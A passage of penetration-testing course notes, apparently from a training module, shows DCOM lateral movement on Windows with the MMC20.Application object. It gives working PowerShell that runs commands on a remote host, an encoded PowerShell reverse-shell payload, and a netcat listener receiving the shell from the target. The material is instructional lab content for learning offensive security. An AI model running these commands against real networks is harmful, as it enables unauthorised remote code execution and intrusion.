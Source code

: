 We are going to demonstrate this lateral movement attack as the _jen_ user logged in from the already compromised Windows 11 CLIENT74 host
+ From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the _GetTypeFromProgID_ method:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```
+ Once the application object is saved into the _$dcom_ variable, we can pass the required argument to the application via the **ExecuteShellCommand** method
+ The method accepts four parameters: **Command**, **Directory**, **Parameters**, and **WindowState**
+ We're only interested in the first and third parameters, which will be populated with **cmd** and **/c calc**, respectively:
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app
+ Because it's within Session 0, we can verify the calculator app is running with **tasklist** and filtering out the output with **findstr**
```
C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe                 4764 Services                   0     12,132 K
```

We can now improve our craft by extending this attack to a full reverse shell similar to what we did in the _WMI and WinRM_ section earlier in this Module
+ Having generated the base64 encoded reverse shell with our Python script, we can replace our DCOM payload with it:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

Switching to our Kali machine, we can verify any incoming connections on the listener that we simultaneously set up
```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```
+ We gained a foothold on an additional internal box by abusing the DCOM MMC application

In this Learning Unit, we learned the theory behind a number of lateral movement attacks and how to execute them from compromised clients
+ Next, we'll discover how to maintain access on the target network through persistence techniques.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
